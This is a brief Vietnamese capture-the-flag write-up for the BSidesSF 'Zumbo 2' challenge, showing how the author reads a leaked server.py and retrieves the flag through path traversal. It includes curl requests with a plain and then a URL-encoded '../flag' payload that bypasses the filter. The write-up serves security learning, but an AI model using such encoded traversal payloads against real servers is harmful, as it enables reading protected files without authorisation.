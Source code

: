 ## Zumbo 2

> Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
> 
> Three flags await. Can you find them?
> 
> http://zumbo-8ac445b1.ctf.bsidessf.net
>
> Stage 3 - coming soon!

#### WriteUp

Giống như bài [Zumbo 1](./Zumbo_1.md), mình lấy được file [server.py](./lib/server.py).

Nhưng không giống như lần trước, để ý sẽ thấy dòng 
```python
if __name__ == '__main__':
```
Rồi mới `open(/flag)`, tức là muốn đến được với flag thì mình phải đi từ [server.py](./lib/server.py). Vậy thì chỉ có thể dính dáng tới [LFI](https://en.wikipedia.org/wiki/File_inclusion_vulnerability).

Thử xem nào

```
traioi$ curl http://zumbo-8ac445b1.ctf.bsidessf.net/../flag
```
```html
[Errno 2] No such file or directory: u'flag'
<!-- page: flag, src: /code/server.py -->
```

Trật lất, có thể đã được filter, thử encode với `URL encode`.
```
traioi$ curl http://zumbo-8ac445b1.ctf.bsidessf.net/%2E%2E%2Fflag
```

```html
FLAG: RUNNER_ON_SECOND_BASE

<!-- page: ..//flag, src: /code/server.py -->
```

Hihi, flag là `FLAG: RUNNER_ON_SECOND_BASE`.